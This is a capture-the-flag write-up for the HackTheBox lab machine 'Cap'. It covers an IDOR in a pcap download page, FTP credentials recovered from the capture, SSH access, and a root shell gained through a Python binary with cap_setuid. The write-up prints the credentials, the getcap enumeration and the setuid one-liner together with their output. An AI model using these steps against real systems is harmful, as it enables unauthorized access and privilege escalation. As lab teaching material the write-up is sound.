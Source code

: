# Cap

![](./Images/image.png)

## Introduction

**Cap** focuses primarily on network security, combining classic network traffic analysis techniques with web vulnerabilities such as IDOR (Insecure Direct Object Reference). The main challenge revolves around a web service that allows viewing .pcap files. By manipulating a parameter in HTTP requests, it is possible to access unintended files, revealing sensitive information such as credentials.

The main objective is to analyze the captured traffic to identify credentials or exploitation vectors, allowing initial access to the machine. Privilege escalation is then required to obtain the root flag by abusing lunyx's capabilities.

- Web vulnerability exploitation (IDOR)
- Network capture analysis (.pcap)
- Credential retrieval
- Local privilege escalation under Linux.

## Enumeration

Nmap scan

![](./Images/image-1.png)

## Footprinting

Visite the web page and replace the found value with 0 and click on `download`

![](./Images/image-2.png)

Analyse the file

![](./Images/image-5.png)

The file contains an FTP connection with credentials

```
nathan:Buck3tH4TF0RM3!
```

## Initial Access

Connect to SSH with the credentials found

```sh
┌──(kali㉿dipeua-pc)-[~/HackTheBox/Cap]
└─$ ssh nathan@10.10.10.245                                               
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun May  4 08:40:33 UTC 2025

  System load:           0.0
  Usage of /:            38.1% of 8.73GB
  Memory usage:          39%
  Swap usage:            0%
  Processes:             254
  Users logged in:       1
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b6a7

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun May  4 08:33:34 2025 from 10.10.14.218
nathan@cap:~$ ls
snap  user.txt
nathan@cap:~$ 
```

## Privilege Escalation

**Using Capabilities**

Note that if the binary has the linux features `cap_setuid+ep` then it can be exploited

```sh
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@cap:~# whoami
root
root@cap:~# 
```

![](./Images/image-4.png)